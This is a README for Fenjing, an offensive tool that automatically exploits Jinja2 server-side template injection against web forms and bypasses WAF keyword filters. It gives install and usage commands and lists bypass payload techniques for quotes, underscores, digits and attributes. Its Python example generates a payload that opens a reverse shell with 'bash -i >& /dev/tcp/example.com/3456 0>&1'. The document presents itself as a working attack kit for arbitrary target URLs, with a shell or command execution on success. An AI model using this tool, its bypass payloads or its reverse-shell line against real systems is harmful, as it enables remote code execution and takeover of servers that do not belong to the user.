 ![焚靖](assets/fenjing.webp)

> Bypass the WAF without knowing WAF

焚靖是一个针对Jinja2 SSTI的命令行脚本，具有强大的自动绕过WAF功能

## 演示

![demo](assets/demo.webp)

## 快速上手

在以下方法中选择一种

### 使用pip安装运行

```shell
pip install fenjing
python -m fenjing scan --url 'http://xxx/'
```

### 下载并运行docker镜像

```shell
docker pull marven11/fenjing
docker run --net host -it marven11/fenjing scan --url 'http://xxx/'
```

### 手动安装

```shell
git clone https://github.com/Marven11/Fenjing
cd Fenjing
python -m pip install -r requirements.txt
python -m fenjing scan --url 'http://xxx/'
```

### 手动构建Docker镜像

```shell
docker build -t fenjing .
docker run -it --net host fenjing scan --url 'http://xxx/'
```

## 特性

支持绕过：

- `'`和`"`
- 绝大多数敏感关键字
- 任意阿拉伯数字
- `_`
- `[`
- `+`
- `-`
- `~`
- `{{`

### 自然数绕过：

支持绕过0-9的同时绕过加号或减号

支持全角数字和特定数字相加减两种绕过方式

### `'%c'`绕过:

支持绕过引号，`g`和`lipsum`

### 下划线绕过：

支持`(lipsum|escape|batch(22)|list|first|last)`
- 其中的数字22支持上面的数字绕过

### 任意字符串：

支持绕过引号，任意字符串拼接符号，下划线和任意关键词

支持以下形式

- `'str'`
- `"str"`
- `"\x61\x61\x61"`
- `dict(__class__=cycler)|join`
    - 其中的下划线支持绕过
- `'%c'*3%(97,97, 97)`
    - 其中的`'%c'`也支持上面的`'%c'`绕过
    - 其中的所有数字都支持上面的数字绕过

### 属性：

- `['aaa']`
    - 其中的字符串支持上面的任意字符串绕过
- `.aaa`
- `|attr('aaa')`
    - 其中的字符串也支持上面的任意字符串绕过

### Item

- `['aaa']`
    - 其中的字符串支持上面的任意字符串绕过
- `.aaa`
- `.__getitem__('aaa')`
    - 其中的`__getitem__`支持上面的属性绕过
    - 其中的字符串也支持上面的任意字符串绕过


## 详细使用

### 作为命令行脚本使用

- scan: 扫描整个网站
  - 从网站中根据form元素提取出所有的表单并攻击
  - 扫描成功后会提供一个模拟终端或执行给定的命令
  - 示例：`python -m fenjing scan --url 'http://xxx/'`
- crack: 对某个特定的表单进行攻击
  - 需要指定表单的url, action(GET或POST)以及所有字段(比如'name')
  - 攻击成功后也会提供一个模拟终端或执行给定的命令
  - 示例：`python -m fenjing crack --url 'http://xxx/' --method GET --inputs name`

```
Usage: python -m fenjing scan [OPTIONS]

Options:
  -u, --url TEXT       需要扫描的URL
  -e, --exec-cmd TEXT  成功后执行的shell指令，不填则进入交互模式
  --interval FLOAT     每次请求的间隔
  --user-agent TEXT    请求时使用的User Agent
  --help               Show this message and exit.

Usage: python -m fenjing crack [OPTIONS]

Options:
  -u, --url TEXT       form所在的URL
  -a, --action TEXT    form的action，默认为当前路径
  -m, --method TEXT    form的提交方式，默认为POST
  -i, --inputs TEXT    form的参数，以逗号分隔
  -e, --exec-cmd TEXT  成功后执行的shell指令，不填则成功后进入交互模式
  --interval FLOAT     每次请求的间隔
  --user-agent TEXT    请求时使用的User Agent
  --help               Show this message and exit.

Usage: python -m fenjing get-config [OPTIONS]

  攻击指定的表单，并获得目标服务器的flask config

Options:
  -u, --url TEXT     form所在的URL
  -a, --action TEXT  form的action，默认为当前路径
  -m, --method TEXT  form的提交方式，默认为POST
  -i, --inputs TEXT  form的参数，以逗号分隔
  --interval FLOAT   每次请求的间隔
  --user-agent TEXT  请求时使用的User Agent
  --help             Show this message and exit.
```

### 作为python库使用

参考[example.py](example.py)

```python
from fenjing import exec_cmd_payload, config_payload
import logging
logging.basicConfig(level = logging.INFO)

def waf(s: str):
    blacklist = [
        "config", "self", "g", "os", "class", "length", "mro", "base", "lipsum",
        "[", '"', "'", "_", ".", "+", "~", "{{",
        "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "０","１","２","３","４","５","６","７","８","９"
    ]
    return all(word in s for word in blacklist)

if __name__ == "__main__":
    shell_payload, _ = exec_cmd_payload(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")
    config_payload = config_payload(waf)

    print(f"{shell_payload=}")
    print(f"{config_payload=}")

```

## 项目结构

[![](https://mermaid.ink/img/pako:eNqFVMtugzAQ_BXLUm7hBzj0UPUP2iMS2thrsGps6keiNMq_F5pS2xhan2BmdryeNdwoMxxpTYUyF9aD9eTtudFkWi6cOgtjT4KXypEHOC9mlLHyEyNi8SOg82gjJIwd0hLt_OMVNV_5w8kEX41wVQa4i0VS-_YMNkFcj0q1P8rMXciuxEWI6rZDHZkC3OsqP4ZjoNtgVUQuIFoRNMvt56qWWWDvSyS__ocDYUqSqnpKIkqRvG5h8p0Tk1X0CZOPaSJS91UDW2zpXEjyLVb0vMHmAAqbMsR14besNNpS5bcmvxpkv6n5eFt2RYr_CpZR7YSY0XEC2dX-u880ru0WCkU26YJNmqRHOqAdQPLpn3CbSxrqexywofX0yFFAUL6hjb5PUgjevF41o7W3AY80jBw8vkiYPqGB1gKUw_sXrbFnVA?type=png)](https://mermaid.live/edit#pako:eNqFVMtugzAQ_BXLUm7hBzj0UPUP2iMS2thrsGps6keiNMq_F5pS2xhan2BmdryeNdwoMxxpTYUyF9aD9eTtudFkWi6cOgtjT4KXypEHOC9mlLHyEyNi8SOg82gjJIwd0hLt_OMVNV_5w8kEX41wVQa4i0VS-_YMNkFcj0q1P8rMXciuxEWI6rZDHZkC3OsqP4ZjoNtgVUQuIFoRNMvt56qWWWDvSyS__ocDYUqSqnpKIkqRvG5h8p0Tk1X0CZOPaSJS91UDW2zpXEjyLVb0vMHmAAqbMsR14besNNpS5bcmvxpkv6n5eFt2RYr_CpZR7YSY0XEC2dX-u880ru0WCkU26YJNmqRHOqAdQPLpn3CbSxrqexywofX0yFFAUL6hjb5PUgjevF41o7W3AY80jBw8vkiYPqGB1gKUw_sXrbFnVA)


